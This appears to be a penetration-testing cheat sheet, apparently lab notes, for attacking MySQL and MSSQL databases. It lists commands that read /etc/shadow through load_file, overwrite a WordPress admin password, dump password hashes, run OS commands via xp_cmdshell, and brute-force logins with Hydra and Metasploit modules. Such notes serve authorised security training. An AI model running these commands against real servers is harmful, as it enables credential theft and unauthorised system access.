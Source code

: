 # Initial Enumeration

- `mysql -h 192.71.145.3 -u root`
	- show databases;
	- use books;
	- show tables;
	- select count(\*) from authors;
	- select load_file("/etc/shadow");
	- UPDATE <table> SET <field> = <value> WHERE <field2> = <value>;
	- UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';

# Nmap scripts

- mysql-empty-password : check anon login
- mysql-info : check InteractiveClient capability
- mysql-users --script-args="mysqluser='root',mysqlpass=''"
- mysql-databases --script-args="mysqluser='root',mysqlpass=''"
- mysql-variables --script-args="mysqluser='root',mysqlpass=''" : check data-dir
- mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" : check if file privs can be granted
- mysql-dump-hashes --script-args="username='root',password=''"
- mysql-query --script-args="query='select count(\*) from books.authors;',username='root',password=''"
- ms-sql-info
- ms-sql-ntlm-info --script-args mssql.instance-port=1433
- ms-sql-brute --script-args userdb=<userlist>,passdb=<passlist>
![nmap ms-sql-brute output](./images/sql-01.png)
- ms-sql-empty-password
- ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" 
- ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria
- ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"
- ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"
	
# Metasploit Modules

- auxiliary/scanner/mysql/mysql_schemadump : Dump the schema of all databases from the server  ￼
![metasploit mysql_schemadump output](./images/sql-02.png)
- auxiliary/scanner/mysql/mysql_writable_dirs : writable dirs
- auxiliary/scanner/mysql/mysql_file_enum : readable files
- auxiliary/scanner/mysql/mysql_hashdump : database users hashdump
![metasploit mysql_hashdump output](./images/sql-03.png)
- auxiliary/scanner/mysql/mysql_login
- auxiliary/scanner/mssql/mssql_login
- auxiliary/admin/mssql/mssql_enum
- auxiliary/admin/mssql/mssql_enum_sql_logins : user enum
- auxiliary/admin/mssql/mssql_exec : execute a cmd is xp_cmdshell enabled
- auxiliary/admin/mssql/mssql_enum_domain_accounts : mps the information such as Windows domain users, groups, and computer accounts
![metasploit mysql_enum_domain_accounts output](./images/sql-04.png)
- auxiliary/admin/mysql/mysql_sql - needs creds to run sql queries.
- wordlists: 
	- usr/share/metasploit-framework/data/wordlists/directory.txt
	- usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
	- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

# Hydra

- `hydra -l <user> -P <wordlist> <ip> mysql`
